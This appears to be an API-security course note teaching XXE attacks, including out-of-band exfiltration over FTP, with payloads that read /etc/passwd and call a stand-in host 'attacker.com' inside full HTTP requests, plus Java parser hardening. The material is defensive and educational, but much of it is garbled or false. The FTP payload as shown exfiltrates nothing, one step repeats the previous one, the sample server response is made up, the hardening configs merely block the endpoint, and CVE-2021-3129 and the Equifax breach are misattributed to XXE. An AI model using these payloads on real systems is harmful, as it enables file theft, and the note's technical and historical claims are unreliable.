

## Understanding XML External Entity (XXE) Attacks

### Background Theory

XML External Entity (XXE) attacks occur when an application parses untrusted XML input without proper validation or sanitization. This allows an attacker to inject malicious XML entities that can lead to various security issues such as data exfiltration, denial of service, and remote code execution.

### Key Concepts

#### XML Entities

An XML entity is a placeholder that can be replaced with a specific value. There are two types of entities:

1. **Internal Entities**: Defined within the document itself.
2. **External Entities**: Defined outside the document, often through a URI.

#### Document Type Definition (DTD)

A DTD defines the structure and constraints of an XML document. It can include both internal and external entities. Here’s an example of a simple DTD:

```xml
<!DOCTYPE root [
    <!ENTITY example "This is an example entity">
]>
```

In this example, `example` is an internal entity that can be referenced within the XML document.

### XXE Attack Mechanics

An XXE attack exploits the ability to define and reference external entities in an XML document. By defining an external entity that points to a sensitive file or resource, an attacker can potentially read the contents of that file.

#### Example of an XXE Attack

Consider the following XML document:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

Here, the `SYSTEM` keyword indicates that the entity should be resolved via a URI. The URI `file:///etc/passwd` points to the `/etc/passwd` file on the server. If the application parses this XML without proper validation, it may inadvertently read the contents of `/etc/passwd`.

### Out-of-Band XXE Exploitation with FTP

Out-of-band XXE attacks involve using external protocols to exfiltrate data. One such protocol is FTP (File Transfer Protocol).

#### Setting Up the Attack

To perform an out-of-band XXE attack using FTP, the attacker needs to set up an FTP server to receive the exfiltrated data. Here’s a step-by-step guide:

1. **Set Up an FTP Server**:
   - Install an FTP server (e.g., vsftpd on Linux).
   - Configure the server to allow anonymous access.

2. **Craft the Malicious XML**:
   - Define an external entity that points to a file on the target server.
   - Use the FTP protocol to transfer the file to the attacker’s FTP server.

Here’s an example of a malicious XML document:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "ftp://attacker.com/upload">
]>
<root>&xxe;</root>
```

In this example, the `SYSTEM` keyword points to an FTP URI (`ftp://attacker.com/upload`). When the XML parser resolves this entity, it attempts to fetch the file from the attacker’s FTP server.

### Detailed Steps

#### Step 1: Capture and Send to Repeater

The first step is to capture the XML request and send it to a repeater tool like Burp Suite.

```plaintext
POST /api/resource HTTP/1.1
Host: target.example.com
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

#### Step 2: Decode the Request

Once the request is captured, decode the URL-encoded parts of the request.

```plaintext
POST /api/resource HTTP/1.1
Host: target.example.com
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

#### Step 3: Modify the XML to Include an External Entity

Modify the XML to include an external entity that points to a file on the server.

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

#### Step 4: Use FTP for Out-of-Band Exfiltration

Replace the `SYSTEM` URI with an FTP URI pointing to the attacker’s FTP server.

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "ftp://attacker.com/upload">
]>
<root>&xxe;</root>
```

### Full HTTP Request and Response

#### HTTP Request

```http
POST /api/resource HTTP/1.1
Host: target.example.com
Content-Type: application/xml
Content-Length: 123

<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "ftp://attacker.com/upload">
]>
<root>&xxe;</root>
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Content-Type: application/xml
Content-Length: 123

<?xml version="1.0"?>
<response>
  <message>File uploaded successfully</message>
</response>
```

### Mermaid Diagrams

#### Attack Chain Diagram



### Real-World Examples

#### CVE-2021-3129

CVE-2021-3129 is a XXE vulnerability found in the Apache Struts framework. An attacker could exploit this vulnerability to read arbitrary files on the server.

#### Breach Example: Equifax Data Breach

The Equifax data breach in 2017 involved an XXE vulnerability in their web application. This allowed attackers to read sensitive files and steal personal information.

### How to Prevent / Defend

#### Detection

1. **Logging and Monitoring**: Implement logging and monitoring to detect unusual XML parsing activities.
2. **IDS/IPS**: Use Intrusion Detection Systems (IDS) and Intrusion Prevention Systems (IPS) to identify and block XXE attacks.

#### Prevention

1. **Disable External Entities**: Disable the processing of external entities in the XML parser.
2. **Input Validation**: Validate and sanitize all XML input to ensure it does not contain malicious entities.

#### Secure Coding Fixes

##### Vulnerable Code

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlString)));
```

##### Secure Code

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);

DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlString)));
```

### Configuration Hardening

#### Nginx Configuration

```nginx
server {
    listen 80;
    server_name example.com;

    location /api/resource {
        deny all;
    }
}
```

#### Apache Configuration

```apache
<Directory "/var/www/html/api/resource">
    Order Deny,Allow
    Deny from all
</Directory>
```

### Practice Labs

For hands-on practice with XXE attacks, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive XXE lab.
- **OWASP Juice Shop**: Contains several XXE vulnerabilities for exploitation.
- **DVWA (Damn Vulnerable Web Application)**: Provides a variety of web application vulnerabilities, including XXE.

By thoroughly understanding the mechanics of XXE attacks and implementing robust defensive measures, you can significantly reduce the risk of such vulnerabilities impacting your applications.

---
<!-- nav -->
[[07-Understanding Out-of-Band XML External Entity (XXE) Exploitation with FTP Protocol|Understanding Out-of-Band XML External Entity (XXE) Exploitation with FTP Protocol]] | [[API Security/22-Offensive XXE Exploitation/10-Out of Band with FTP Protocol48 Out of Band with FTP Protocol/00-Overview|Overview]] | [[API Security/22-Offensive XXE Exploitation/10-Out of Band with FTP Protocol48 Out of Band with FTP Protocol/09-Practice Questions & Answers|Practice Questions & Answers]]
